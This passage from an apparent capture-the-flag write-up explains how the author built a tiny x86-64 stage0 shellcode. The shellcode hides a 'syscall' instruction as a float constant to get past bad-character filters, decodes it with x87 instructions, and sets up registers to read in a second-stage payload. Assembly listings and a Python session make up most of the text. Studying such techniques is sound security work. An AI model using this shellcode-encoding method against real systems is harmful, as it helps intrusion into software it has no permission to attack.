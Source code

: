 
First things first, we need some way to decode an encoded version of `syscall`. Again, I turned to floating point instructions. I could a zero and then subtract another float; I might be able to get the resulting integer to decode to `syscall`!

Due to the size limitation, I could only encode four bytes. The rest of the shellcode would not only need to take care of decoding these four bytes, but also setting up the registers for `syscall read`. 

```
bits 64
_start:                 ; shellcode stage0: read in stage1
add al, _syscall-_start ; point rax to encoded instruction
```

I didn't care anymore about using `rcx` as a counter and index. I needed to adjust the pointer to the right address, which contained an encoded dword. The decoding of this dword is handle by these instructions:

```
fldz                    ; setup st0
fsub dword [rax]        ; subtract encoded instruction
fistp dword [rax]       ; store them again
```

The dword that I chose to encode were actually these instructions:

```
bits 64
xchg rax,rsi
syscall
```

These would assembled to:

```
$ xxd small
0000000: 4896 0f05
```

I then turned to python:

```python
$ python
Python 2.7.3 (default, Mar 13 2014, 11:03:55) 
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x050f9648
84907592
```

I was lucked out here. I tried many things, but this value, stored as a negative float, did **not** contain any bad chars!

```
sbb esi, esi            ; set rsi to zero
xchg esi, edi           ; used for edi -> stdin
sbb esi, esi            ; set rsi to zero, used for rax -> read
mov dl, 0xf0            ; read in 0xf0 bytes, hopefully enough
_syscall:
dd -84907592.0          ; this is actually xchg rax, rsi; syscall but encoded as a float!
```
